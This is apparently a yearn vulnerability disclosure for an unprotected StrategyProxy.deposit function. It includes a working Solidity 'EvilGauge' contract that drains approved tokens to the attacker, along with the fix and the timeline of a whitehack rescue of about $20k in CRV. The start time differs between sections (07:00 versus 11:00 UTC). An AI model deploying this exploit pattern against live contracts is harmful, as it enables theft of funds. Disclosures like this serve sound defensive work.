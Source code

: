 # Vulnerability disclosure 2020-10-10

## Summary

- A vulnerability that puts token balance of Curve Voter Proxy at risk was discovered.
- The only token in its balance was $20k worth of CRV.
- The vulnerability was exploited by the team, all funds are rescued.

## Background

At 07:00 (UTC) Emiliano Bonassi shares a concern that `StrategyProxy.deposit(address gauge, address token)` can be executed by anyone. He explains that by constructing a fake gauge contract, it's possible to force `CurveYCRVVoter` to call `deposit(uint amount)` on it with a token allowance.

The concern is initially dismissed as funds should never end up in the proxy. Emiliano follows up with the info that there is in fact 34,352 CRV sitting in the Voter Proxy.

A few moments later Artem writes a proof of concept exploit contract, and confirms the vulnerability in forked mainnet.

The team decides to whitehack the contract to not put funds at risk. Artem exploits the contract and sends the recovered funds to multisig.

## Details of vulnerability

An `EvilGauge` contract which mimics Curve Gauge can be constructed. An attacker calls `StrategyProxy.deposit(EvilGauge, Token)`, which calls and then calls `CurveYCRVVoter.execute` with the following actions:
- `Token.approve(EvilGauge, Token.balanceOf(CurveYCRVVoter))` 
- `EvilGauge.deposit(Token.balanceOf(CurveYCRVVoter))`

Since `EvilGauge` has allowance from `CurveYCRVVoter`, it can `Token.transferFrom` that amount of funds for its benefit.

## Exploit contract

```solidity
pragma solidity =0.5.17;

import "@openzeppelinV2/contracts/token/ERC20/IERC20.sol";

contract EvilGauge {

    IERC20 token;
    address owner;

    constructor(address _token) public {
        owner = msg.sender;
        token = IERC20(_token);
    }

    function deposit(uint amount) public {
        token.transferFrom(msg.sender, owner, amount);
    }
}
```

## Details of fix

`StrategyProxy.deposit(address,address)` must only be callable by approved Strategies:

```solidity
require(strategies[msg.sender], "!strategy");
```

Each proxy strategy should call `StrategyProxy.lock()` on `harvest()` to avoid leaving residue CRV in Voter Proxy contract.

## Timeline of events

- **Oct 10, 2020, 11:00 UTC** Emiliano raises the concern in YFI Secret Admirers chat.
- **12:53** Emiliano reaches out to Artem with more details, Artem writes the exploit.
- **13:09** Exploit is confirmed to steal funds in forked mainnet.
- **13:15** Exploit deployed on mainnet and the contract is whitehacked. The funds are sent to yearn multisig.

## Links

- Whitehack [transaction](https://ethtx.info/mainnet/0x8302d3481d2b4eb6b5ba7d6b467e3ce8cd3450dac3c8857aac7964bd54ed507a)
